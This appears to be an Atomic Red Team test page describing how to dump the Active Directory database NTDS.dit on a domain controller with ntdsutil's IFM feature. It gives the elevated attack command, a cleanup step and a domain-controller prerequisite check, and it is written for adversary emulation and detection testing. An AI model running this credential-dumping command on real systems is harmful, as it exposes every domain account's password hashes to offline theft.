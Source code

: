 


<br/>
<br/>

## Atomic Test #3 - Dump Active Directory Database with NTDSUtil
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped using NTDSUtil for offline credential theft attacks. This capability
uses the "IFM" or "Install From Media" backup functionality that allows Active Directory restoration or installation of
subsequent domain controllers without the need of network-based replication.

Upon successful completion, you will find a copy of the ntds.dit file in the C:\Windows\Temp directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 2364e33d-ceab-4641-8468-bfb1d7cc2723





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_folder | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;ntds_T1003|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
mkdir #{output_folder}
ntdsutil "ac i ntds" "ifm" "create full #{output_folder}" q q
```

#### Cleanup Commands:
```cmd
rmdir /q /s #{output_folder} >nul 2>&1
```



#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a Domain Controller
##### Check Prereq Commands:
```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT
```
##### Get Prereq Commands:
```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```
